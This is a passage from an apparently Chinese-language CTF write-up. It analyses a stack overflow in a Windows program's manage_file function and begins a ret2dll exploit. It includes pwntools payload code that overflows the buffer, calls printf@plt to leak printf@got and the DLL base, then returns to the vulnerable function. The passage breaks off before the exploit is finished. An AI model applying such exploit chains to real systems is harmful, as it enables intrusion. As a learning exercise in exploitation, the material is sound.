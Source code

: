 [![](https://img.lhyerror404.cn/error404/2020-07-09-121919.png)](https://img.lhyerror404.cn/error404/2020-07-09-121919.png)

### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>程序漏洞分析

[![](https://img.lhyerror404.cn/error404/2020-07-10-090321.png)](https://img.lhyerror404.cn/error404/2020-07-10-090321.png)

这个题需要我们在运行时提交一个文件作为餐数，然后会读取其中的内容作为`manage_file`函数的参数传入

然后程序就会将文件的内容读取到局部变量中

[![](https://img.lhyerror404.cn/error404/2020-07-10-090652.png)](https://img.lhyerror404.cn/error404/2020-07-10-090652.png)

但是显然这里没有做很好的长度过滤，这会导致栈溢出的发生。

这一次程序中不再有后门函数以供我们利用，于是我们这次使用`ret2dll`完成利用。

### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>程序漏洞利用

**由于程序没有开启`PIE`保护，系统也没有开启`aslr`于是可以不用考虑`Leak`相关地址后程序崩溃的问题，因为相关地址并不会发生任何的改变。**

#### <a class="reference-link" name="%E6%B3%84%E9%9C%B2%E5%90%88%E6%B3%95%E6%96%87%E4%BB%B6%E5%9C%B0%E5%9D%80"></a>泄露合法文件地址

由于我们触发栈溢出后必然会影响`fclose`的参数，于是我们先行泄露：

```
payload  = p32(0) * 100
open('./payload_0','w').write(payload)
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-07-11-061206.png)

#### <a class="reference-link" name="%E6%B3%84%E9%9C%B2DLL%E5%8A%A0%E8%BD%BD%E5%9C%B0%E5%9D%80"></a>泄露DLL加载地址

我们可以利用`printf`函数来泄露并计算`DLL`文件的加载基址。

```
payload  = p32(0x76284660) * (0x2014 / 4) + p32(0xDEADBEEF) 
payload += p32(0x00402974) # printf@plt
payload += p32(0x004016E3) # _manage_file
payload += p32(0x00406200) # printf@got
open('./payload_1','w').write(payload)
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-07-11-061416.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-07-11-061511.png)
